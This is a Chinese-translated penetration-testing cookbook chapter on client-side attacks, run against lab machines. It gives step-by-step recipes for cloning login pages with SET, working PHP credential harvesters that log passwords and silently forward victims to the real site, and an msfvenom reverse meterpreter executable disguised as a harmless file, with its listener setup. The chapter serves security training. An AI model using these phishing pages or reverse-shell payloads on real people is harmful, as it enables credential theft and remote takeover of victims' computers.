


# 第九章 客户端攻击和社会工程

> 作者：Gilberto Najera-Gutierrez

> 译者：[飞龙](https://github.com/)

> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 简介

我们目前所见的大部分技巧都尝试利用服务端的漏洞或设计缺陷，并访问它来从数据库中提取信息。有另外不中攻击，使用服务器来利用用户软件上的漏洞，或者尝试欺骗用户来做一些他们通常情况下不会做的事情，以便获得用户拥有的信息。这些攻击就叫做客户端攻击。

这一章中，我们会复查一些由攻击者使用，用于从客户端获得信息的技巧，通过社会工程、欺骗或利用软件漏洞。

虽然它并不和 Web 应用渗透测试特定相关，我们会涉及它们，因为大多数都是基于 web 的，并且都是非常常见的场景，其中我们在攻击客户端时，能够访问应用和服务器。所以，了解攻击者如何执行这类攻击，对于渗透测试者来说非常重要。

## 9.1 使用 SET 创建密码收集器

社会工程攻击可能被认为是客户端攻击的特殊形式。在这种攻击中，攻击者需要说服用户，相信攻击者是可信任的副本，并且有权接收用户拥有的一些信息。

SET 或社会工程工具包（`(https://www.trustedsec.com/social-engineertoolkit/`）是一套工具，为执行针对人性的攻击而设计。这类攻击，包括网络钓鱼、邮件群发、SMS、伪造无线接入点、恶意网站、感染性媒体，以及其它。

这个秘籍中，我们会使用 SET 来创建密码收集器网页，并看看它如何工作，以及攻击者如何使用它来盗取用户密码。

### 操作步骤

1.  在 root 终端中输入下列命令：

    ```
    setoolkit
    ```
    
    
    
2.  在`set>`提示符中输入`1`（`Social-Engineering Attacks`）并按下回车。

3.  现在选择`Website Attack Vectors`（选项`2`）。

4.  从下面的菜单中，我们选择`Credential Harvester Attack Method`（选项`3`）。

5.  选择`Site Cloner `（选项`2`）。

6.  它会询问`IP address for the POST back in Harvester/Tabnabbing`。它的意思是收集到的证书打算发送到哪个 IP。这里，我们输入 Kali 主机在`vboxnet0`中的 IP `192.168.56.1`。

7.  下面，压脚询问要克隆的 URL，我们会从 vulnerable_vm 中克隆 Peruggia 的登录表单。输入` http://192.168.56.102/peruggia/index. php?action=login`。

8.  现在会开始克隆，之后你会被询问是否 SET 要开启 Apache 服务器，让我们这次选择`Yes`，输入`y`并按下回车。

    
    
9.  再次按下回车。

0.  让我们测试一下页面，访问` http://192.168.56.1/`。

    
    
    现在我们拥有原始登录页面的一份精确副本。
    
1.  现在在里面输入一些用户名和密码，并点击`Login`。我们要尝试`harvester/test`。

2.  你会看到页面重定向到了原始的登录页面。现在，来到终端并输入收集器文件保存的目录，默认为 Kali 中的`/var/www/ html`：

    ```
    cd /var/www/html
    ```
    
3.  这里应该有名称为`harvester_{date and time}.txt `的文件。

4.  显示它的内容，我们会看到所有捕获的信息：

    ```
    cat harvester_2015-11-22 23:16:24.182192.txt
    ```
    
    
    
    这就结束了，我们仅仅需要将连接发送给我们的目标，并让他们访问我们的伪造登录页面，来收集它们的密码。
    
### 工作原理

SET 在克隆站点的时候会创建三个文件：首先是`index.html`，这是原始页面的副本，并包含登录表单。如果我们查看 SET 在我们的 Kali 中的 `/var/www/html `创建的`index.html`的代码，我们会发现下面的代码：

```html
<form action="http://192.168.56.1/post.php"http://192.168.56.1/index.php?action=login&amp;check=1" method=post> 
<br> 
Username: <input type=text name=username><br> 
Password: <input type=password name=password><br> 
<br><input type=submit value=Login><br> 
</form>
```

这里我们可以看到用户名和密码都发给了 192.168.56.1 （我们的 Kali 主机）的`post.php`，这是 SET 创建的第二个文件。这个文件所做的所有事情就是读取 POST 请求的内容并将它们写入`harvester_{date and time}.txt `文件。 SET 所创建的第三个文件储存由用户提交的信息。在向文件中写入数据之后，`<meta>`标签重定向到原始的登录页面，所以用户会认为他们输入了一些不正确的用户名或密码：

```php
<?php 
$file = 'harvester_2015-11-22 23:16:24.182192.txt'; 
file_put_contents($file, print_r($_POST, true), FILE_APPEND); 
?> 
<meta http-equiv="refresh" content="0; 
url=http://192.168.56.102/peruggia/index.php?action=login" 
/>
```

## 9.2 使用之前保存的页面来创建钓鱼网站

在之前的秘籍中，我们使用了 SET 来复制网站并使用它来收集密码。哟时候，仅仅复制登录页面不会对高级用户生效，在正确输入密码并再次重定向登录页面时，它们可能会产生怀疑，或者会试着浏览页面中的其它链接。我们这样就会失去它们，因为它们会离开我们的页面而来到原始站点。

这个秘籍中，我们会使用我们在第三章“为 Wget 离线分析下载页面”秘籍中复制的页面，来构建更加详细的钓鱼网站，因为它几乎含有所有导航，并且会在捕获证书之后登陆原始站点。

### 准备

我们需要保存 Web 页面，遵循第三章“为 Wget 离线分析下载页面”秘籍。简单来说，可以通过下列命令来完成：

```
wget -r -P bodgeit_offline/ http://192.168.56.102/bodgeit/ 
```

之后，离线页面会储存在`bodgeit_offline `目录中。

### 操作步骤

1.  第一步是将下载的站点复制到 Kali 中 APache 的根目录。在 root 终端中：

    ```
    cp -r bodgeit_offline/192.168.56.102/bodgeit /var/www/html/ 
    ```
    
2.  之后我们启动 Apache 服务：

    ```
    service apache2 start 
    ```
    
3.  下面，我们需要更新我们的登录页面，使它重定向我们收集密码的脚本。打开`bodgeit `目录（`/ var/www/html/bodgeit`）中的`login.jsp`文件，并寻找下面的代码：

    ```html
    <h3>Login</h3> 
    Please enter your credentials: <br/><br/> 
    <form method="POST">
    ```
    
4.  现在，在表单标签中添加`action`来调用`post.php`：

    ```html
    <form method="POST" action="post.php">
    ```
    
5.  我们需要在` login.jsp `的相同目录下创建该文件，创建`post.php`，带有下列代码：

    ```php
    <?php  
    $file = 'passwords_C00kb00k.txt';  
    file_put_contents($file, print_r($_POST, true), FILE_APPEND);  
    $username=$_POST["username"];  
    $password=$_POST["password"];  
    $submit="Login"; ?> 
    <body onload="frm1.submit.click()"> 
    <form name="frm1" id="frm1" method="POST" 
    action="http://192.168.56.102/bodgeit/login.jsp"> 
    <input type="hidden" value= "<?php echo $username;?>" name ="username"> 
    <input type="hidden" value= "<?php echo $password;?>" name ="password"> 
    <input type="submit" value= "<?php echo $submit;?>" name ="submit"> 
    </form> 
    </body>
    ```
    
6.  你可以看到，密码会保存到` passwords_C00kb00k.txt`。我们需要创建这个文件来设置合理的权限。在 root 终端中访问`/var/www/html/bodgeit `，并输入下列命令：

    ```
    touch passwords_C00kb00k.txt 
    chown www-data passwords_C00kb00k.txt
    ```
    
    要记住 Web 服务器运行在 www-data 用户下，所以我们需要使这个用户为文件的所有者，便于它可被 web 服务器进程写入。
    
7.  现在，是时候让受害者访问这个站点了，假设我们让用户访问了`http://192.168.56.1/bodgeit/login.jsp`，打开浏览器并访问它。

8.  使用一些有效用户信息填充登录表单，对于这个秘籍我们会使用`user@ mail.com/password`。

9.  点击`Login`。
    
    
    
    它看起来能正常工作，我们现在成功登录了` 192.168.56.102`。
    
0.  让我们检查密码文件，在终端中输入：

    ```
    cat passwords_C00kb00k.txt
    ```
    
    
    
    并且，我们得到它了。我们捕获了用户的密码，将它们重定向到正常页面并执行了登录。
    
### 工作原理

这个秘籍中，我们使用了站点副本来创建密码收集器，并使它更加可信，我们是脚本执行原始站点的登录。

在前三步中，我们简单设置了 Web 服务器和它要展示的文件。下面，我们创建了密码收集器脚本`post.php`：前两行和之前的秘籍相同，它接受所有 POST 参数并保存到文件中。

```php
$file = 'passwords_C00kb00k.txt';  
file_put_contents($file, print_r($_POST, true), FILE_APPEND);
```

之后我们将每个参数储存到变量中：

```php
$username=$_POST["username"];  
$password=$_POST["password"];  
$submit="Login";
```

因为我们的登录不打算依赖于用户发送的正确值，我们设置`$submit="Login"`。下面，我们创建了 HTML 主题，它包含一个表单，在页面加载完毕后会自动发送`username`，`password`和`submit`值到原始站点。

```php
<body onload="frm1.submit.click()"> 
<form name="frm1" id="frm1" method="POST" 
action="http://192.168.56.102/bodgeit/login.jsp"> 
<input type="hidden" value= "<?php echo $username;?>" name ="username"> 
<input type="hidden" value= "<?php echo $password;?>" name ="password"> 
<input type="submit" value= "<?php echo $submit;?>" name ="submit"> 
</form> 
</body>
```

要注意，`body `中的`onload`事件并不调用`frm1.submit() `而是` frm1.submit. click()`。这是因为当我们使用`submit`作为表单元素的名称时，表单中的`submit()`函数会被这个元素覆盖掉（这里是提交按钮）。我们并不打算修改按钮名称，因为它是原始站点需要的名称。所以我们使`submit`变成一个按钮，而不是隐藏字段，并使用它的`click`函数将值提交到原始站点。我们同时将表单中的字段值设置为我们之前用于储存用户数据的变量值。

## 9.3 使用 Metasploit 创建反向 shell 并捕获连接

当我们执行客户端攻击的时候，我们能够欺骗用户来执行程序，并使这些程序连接回控制端。

这个秘籍中，我们会了解如何使用 Metasploit 的 msfvenom 来创建可执行程序（反向 meterpreter shell），它会在执行时连接我们的 Kali 主机，并向我们提供用户计算机的控制。

### 操作步骤

1.  首先，我们要创建我们的 shell。在 Kali 中打开终端并执行下列命令：

    ```
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4443 -f exe > cute_dolphin.exe
    ```
    
    这会创建名为`cute_dolphin.exe`的文件，这是反向 meterpreter shell，反向意味着它会连接回我们，而不是监听我们的连接。
    
2.  下面，我们需要为我们“可爱的海豚”将要创建的连接建立监听器。在 MSFconsole 的终端中：

    ```
    use exploit/multi/handler 
    set payload windows/meterpreter/reverse_tcp 
    set lhost 192.168.56.1 set lport 4443 
    set ExitOnSession false 
    set AutorunScript post/windows/manage/smart_migrate 
    exploit -j -z 
    ```
    
    就像你看到的那样，LHOST 和 RPORT 是我们用于创建`exe`文件的东西。这是程序将要连接的 IP 地址和 TCP 端口。所以我们需要在这个 Kali 的网络接口和端口上监听。
    
3.  我们的 Kali 已准备就绪，现在是准备攻击用户的时候了，我们以 root 启动 Apache 服务并运行下列代码：

    ```
    service apache2 start
    ```
    
4.  之后，将恶意文件复制到 web 服务器文件夹内。

    ```
    cp cute_dolphin.exe /var/www/html/
    ```
    
5.  假设我们使用社会工程并使我们的受害者相信这个文件是需要执行来获得一些好处的东西。在 Windows 客户端虚拟机内，访问` http://192.168.56.1/cute_dolphin.exe`。

6.  你会被询问下载还是运行这个文件，出于测试目的，选择`Run`（运行），再被询问时，再次选择`Run`。

7.  现在，在 Kali MSFCONSOLE 的终端中，你会看到建立好的连接：

    

8.  我们在后台运行连接处理器（`-j -z`选项）。让我们检查我们的活动会话：

    ```
    sessions
    ```
    
    
    
9.  如果我们打算和会话交互，可以使用`-i`选项，带有会话的编号：

    ```
    sessions -i 1 
    ```
    
0.  我们会看到 meterpreter 的提示符。现在，我们可以请求被入侵系统的信息。

    ```
    sysinfo
    ```
    
    
    
1.  或者执行系统 shell。

    ```
    shell
    ```
    
    

### 工作原理

Msfvenom 帮助的我们从 Metasploit 大量列表中创建载荷，并且将它们集成到许多语言的源代码中，或者创建脚本和可执行文件。就像我们在这个秘籍所做的那样。我们这里所使用的参数是所使用的载荷（`windows/ meterpreter/reverse_tcp`）、连接回来所需的主机和端口（LHOST 和 RPORT），以及输出格式（`-f exe`）。将标准输出重定向到文件来将它保存为` cute_dolphin.exe`。

Metasploit 的 exploit/multi/handler 是个载荷处理器，这里我们将其用于监听连接。在连接建立之后，它执行了 meterpreter 载荷。

Meterpreter 是增强型的 Metasploit shell。它包含用于嗅探受害者网络的模块，用于将其作为支点来访问本地网络，或者用于执行权限提升和密码提取，以及其它渗透测试中实用的事情。
